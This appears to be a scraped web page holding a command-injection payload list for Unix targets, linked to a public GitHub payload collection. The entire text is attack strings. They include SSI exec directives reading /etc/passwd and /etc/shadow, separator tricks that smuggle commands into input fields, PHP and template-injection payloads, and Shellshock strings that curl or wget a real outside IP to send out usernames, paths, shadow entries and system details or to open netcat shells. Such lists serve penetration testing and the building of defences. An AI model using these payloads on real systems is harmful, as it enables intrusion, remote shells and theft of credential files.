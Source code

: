 <h3>Unix</h3>
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&#123;&#123; get_user_file(&quot;/etc/passwd&quot;) &#125;&#125;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&lt;?php system(&quot;cat /etc/passwd&quot;);?&gt;
</pre>

Windows Commnads
<a href= https://github.com/payloadbox/command-injection-payload-list >